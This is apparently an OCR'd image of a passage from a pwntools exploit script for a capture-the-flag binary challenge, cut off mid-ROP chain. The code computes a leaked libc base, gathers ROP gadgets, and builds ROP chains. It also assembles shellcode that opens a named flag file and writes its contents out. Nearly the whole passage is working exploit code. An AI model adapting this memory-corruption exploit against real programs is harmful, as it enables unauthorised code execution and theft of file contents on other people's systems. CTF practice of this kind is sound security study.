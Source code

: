 ```
log_print("libc base addr",hex(libc_base_addr))

log_print(next(libc.search(b"%p\0")))
log_print("bin sh",hex(libc_base_addr + next(libc.search(b".\0"))))

log_print(libc.sym["opendir"])

log_print("mprotect",libc.sym["mprotect"])

pop_rsi_ret_addr = libc_base_addr + libc_rop.find_gadget(['pop rsi', 'ret'])[0]
pop_rdx_ret_addr = libc_base_addr + libc_rop.find_gadget(['pop rdx', 'ret'])[0]
leave_ret_addr = libc_base_addr + libc_rop.find_gadget(['leave', 'ret'])[0]
mov_rdx_rax_ret_addr = libc_base_addr + 0x0000000000115dff
push_rdx_ret_addr = libc_base_addr + 0x0000000000117171
add_rax_1_ret_addr = libc_base_addr + 0x00000000000b4a00
add_rax_3_ret_addr = libc_base_addr + 0x00000000000b4a10

log_print("pop rsi ret",hex(pop_rsi_ret_addr))
log_print("pop rdx ret",hex(pop_rdx_ret_addr))
log_print("leave ret",hex(leave_ret_addr))

rop_2 = flat({
    32+8: [
        pop_rdx_ret_addr,
        0x200,
        exe.sym["read"],
    ]
})
io.send(rop_2)
shellcode_mov_rdi_rax_ret = asm(shellcraft.mov("rdi","rax"))+asm(shellcraft.ret())
mov_rdi_rax_ret_addr = writable_addr

shellcode_mov_r15_rdi_ret = asm(shellcraft.mov("r15","rdi"))+asm(shellcraft.ret())
mov_r15_rdi_ret_addr = mov_rdi_rax_ret_addr + len(shellcode_mov_rdi_rax_ret)

shellcode_mov_rdi_r15_ret = asm(shellcraft.mov("rdi","r15"))+asm(shellcraft.ret())
mov_rdi_r15_ret_addr = mov_r15_rdi_ret_addr + len(shellcode_mov_r15_rdi_ret)

shellcode_add_rax_19_ret = bytes.fromhex("4883c013c3")
add_rax_19_ret_addr = mov_rdi_r15_ret_addr + len(shellcode_mov_rdi_r15_ret)

shellcode_read_file = b''.join([
    asm(shellcraft.read(0, writable_addr+0x100, 100)),
    asm(shellcraft.open(writable_addr+0x100, 0)),
    asm(shellcraft.read('rax', writable_addr+0x100, 100)),
    asm(shellcraft.write(1, writable_addr+0x100, 100))])

read_file_addr = add_rax_19_ret_addr + len(shellcode_add_rax_19_ret)

flag_file_name = b"066A2462DEB399BA9183A91FC116914C.txt"

# log_print(hex(mov_rdi_rax_ret_addr),hex(mov_rdx_rdi_ret_addr),hex(mov_rdi_rdx_ret_addr))
final_shellcodes = shellcode_mov_rdi_rax_ret+shellcode_mov_r15_rdi_ret+shellcode_mov_rdi_r15_ret + shellcode_add_rax_19_ret + shellcode_read_file




rop_3 = flat({
    32+8: [
        b'AAAAAAAA',
        b'BBBBBBBB',
        b'CCCCCCCC',
```
